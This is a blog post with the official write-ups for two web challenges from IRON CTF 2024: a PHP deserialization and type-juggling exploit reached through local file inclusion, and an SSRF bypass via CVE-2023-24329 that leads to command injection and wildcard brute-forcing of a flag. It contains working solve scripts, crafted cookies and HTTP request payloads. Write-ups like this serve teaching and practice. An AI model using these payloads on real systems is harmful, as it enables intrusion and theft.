










# :globe_with_meridians: Medium

---

# IRON CTF 2024 Official writeup — WEB Exploitation

Hello everyone! I’m back with yet another CTF writeup, but this time, it’s for the challenges I created for **IRON CTF 2024**, an international CTF competition conducted by **Team 1nf1n1ty from SASTRA University**.



## 1. WEB/cerealShop

Upon opening the provided challenge link, we are presented with a site that looks like this:







The site has an input field we can test, but it lacks functionality. Upon checking the source code of the site, we find two hints:




- We have a “?file” parameter where we can pass any filename. If the provided file is available, we can see its contents.

- There is a hidden base64 string in the HTML code within a paragraph tag. When decoded, it provides a hint: . “**I left a piece of code in a file called source , I bet you can’t reach it**”

Using these hints, we can now test for a Local File Inclusion (LFI) vulnerability. First, we’ll attempt to read the /etc/passwd file.




Yes, the application is vulnerable to Local File Inclusion (LFI). Using this vulnerability, we can read the source file. If we pass ?file=../../../source in the URL, we get the PHP source code of the site.




```
<?php
$file = $_GET['file'];
includeFile($file);
$FLAG = getenv('FLAG');
class Admin
{
public $is_admin = "";
public $your_secret = "";
public $my_secret = "";
public function __construct($in, $ysecret, $msecret)
{
$this->is_admin = md5($in);
$this->your_secret = $ysecret;
$this->my_secret = $msecret;
}
public function __toString()
{
return $this->is_admin;
}
}
if (isset($_COOKIE['can_you_get_me'])) {
try {
$f = base64_decode($_COOKIE['can_you_get_me']);
if (!$f) {
throw new Exception("");
}
$unout = unserialize($f);
if (!$unout) {
throw new Exception("\n wrong cookie");
}
$unout->my_secret = $FLAG;
if ($unout->is_admin == 0 && $unout->your_secret === $unout->my_secret) {
echo "Okay here is your flag:", $FLAG;
}
else{
echo "no ";
}
catch (Exception $e) {
echo "Error: " . $e->getMessage();
}
}
?>
```

If you examine the code carefully, you can see that the flag is printed only when we satisfy two conditions:

- is_admin should be equal to 0

- your_secret should be equal to my_secret

To achieve this ,

- Find a value that, when converted to an MD5 hash, starts with “0e”. This exploits PHP’s weak comparison ($unout->is_admin == 0), leading to type juggling. I used ‘aabg7XSs’ here , if you just google or use chatgpt you can easily get some values.

- To bypass the second condition, use the reference operator like this:

**$this->your_secret = &$this->my_secret;**

## Solve script:

```
<?php
class Admin{
public $is_admin="";
public $your_secret="";
public $my_secret="";
public function __construct($in,$ysecret,$msecret){
$this->is_admin=md5($in) ;
$this->your_secret = &$this->my_secret;
}
public function __toString(){
return $this->is_admin;
}
}
$o=new Admin('aabg7XSs','anything','anything');
echo base64_encode(serialize($o));
?>
```

```
**output:**
Tzo1OiJBZG1pbiI6Mzp7czo4OiJpc19hZG1pbiI7czozMjoiMGUwODczODY0ODIxMzYwMTM3NDA5NTc3ODA5NjUyOTUiO3M6MTE6InlvdXJfc2VjcmV0IjtzOjA6IiI7czo5OiJteV9zZWNyZXQiO1I6Mzt9
```

Now, set this as a cookie named “can_you_get_me”, and you’ll obtain the flag :)







**flag: ironCTF{D353r1411Z4710N_4T_1T5_B35T}**

## 2. WEB/b64SiteViewer

Upon opening the provided challenge link, we are presented with a site that looks like this:

Before testing the input field, we should examine the source code provided for this challenge.

## Dockerfile

```
FROM python:3.9.7

COPY /challenge /chall

WORKDIR /chall

RUN mv flag.sh /usr/local/bin/flag

RUN pip install -r requirements.txt

ENV flag ironCTF{redacted}

EXPOSE 5000

CMD ["python","-m","app"]
```

## app.py

```
from flask import render_template,render_template_string,Flask,request
from urllib.parse import urlparse
import urllib.request
import random
import os
import subprocess
import base64

app=Flask(__name__)
app.secret_key=os.urandom(16)

@app.route('/',methods=['GET','POST'])
def home():
if request.method=='GET':
return render_template('home.html')
if request.method=='POST':
try:
url=request.form.get('url')
scheme=urlparse(url).scheme
hostname=urlparse(url).hostname
blacklist_scheme=['file','gopher','php','ftp','dict','data']
blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
if scheme in blacklist_scheme:
return render_template_string('blocked scheme')
if hostname in blacklist_hostname:
return render_template_string('blocked host')
t=urllib.request.urlopen(url)
content = t.read()
output=base64.b64encode(content)
return (f'''base64 version of the site:
{output[:1000]}''')
except Exception as e:
print(e)
return f" An error occurred: {e} - Unable to visit this site, try some other website."

@app.route('/admin')
def admin():
remote_addr = request.remote_addr
if remote_addr in ['127.0.0.1', 'localhost']:
cmd=request.args.get('cmd','id')
cmd_blacklist=['REDACTED']
if "'" in cmd or '"' in cmd:
return render_template_string('Command blocked')
for i in cmd_blacklist:
if i in cmd:
return render_template_string('Command blocked')
print(f"Executing: {cmd}")
res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
return res.stdout
else:
return render_template_string("Don't hack me")
if __name__=="__main__":
app.run(host='0.0.0.0',port='5000')
```

## flag.sh

```
#!/bin/bash
inp=$1
if [[ $flag == $inp ]]
then
echo "This is the flag"
else
echo "no"
fi
```

## Intended solution:

A close examination of the Dockerfile reveals two important hints:

- Python 3.9.7 is used, which is an older version with some significant known vulnerabilities.

- The [flag.sh](http://flag.sh/) script is moved into /usr/local/bin as flag which indicates that we can execute the flag.sh script as flag from anywhere.

Now, if you examine the [app.py](http://app.py/) file, you’ll see that the application uses urllib to open a site, convert its contents to base64, and return the first 1000 characters.

## Get Arun balaji’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

In order to execute any script, one has to send a request from [localhost](http://localhost/) or 127.0.0.1 to the /admin endpoint with the desired command.

Since urlib is used here and the python version is 3.9.7 its vulnerable to **CVE-2023–24329,** you can find more details here [https://nvd.nist.gov/vuln/detail/CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329)

We can use this vulnerability to send a request to /admin as [localhost](http://localhost/) using a blank space in the begining of the input.

```
POST / HTTP/2
Host: b64siteviewer.1nf1n1ty.team
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://b64siteviewer.1nf1n1ty.team
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://b64siteviewer.1nf1n1ty.team/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

url= http://127.0.0.1:5000/admin?cmd=ls
#notice the blank space at the starting .
```

Now, the objective is to run the [flag.sh](http://flag.sh/) script because the script uses a weak comparison between the flag and our input string. `[[ $flag == $inp ]]`

We can get the flag character by character using the wildcard operator(*) ,if the correct character matches we get the output “this is the flag” , if not we get “no”.

Since we know the flag format and it contains only loweracase alphanumeric characters we can easily script it out using python .

## solve.py

```
import requests
url='https://b64siteviewer.1nf1n1ty.team/'
brute='0123456789abcdefghijklmnopqrstuvwxyz}'
pay='ironCTF{'
while pay[-1]!='}':
for i in brute:
temp=pay+i
payload={"url":f' http://127.0.0.1:5000/admin?cmd=flag%20{temp}*'}



res=requests.post(url=url,data=payload)
if 'bm8K' not in res.text:
pay=pay+i
print(pay)
break
print("flag is :",pay)
```

flag is : **ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}**

## Unintended Solution:

If you didn’t focus on bypassing the blacklist, you would have ended up with the above method. However, if you spent some time trying to find the blacklist, you could have easily solved the challenge. This is because we didn’t block commands like head, tail, less, more .

```
url= http://127.0.0.1:5000/admin?cmd=tail%20*



```

That’s it for today everyone , Hope you enjoyed the challenges !!

---
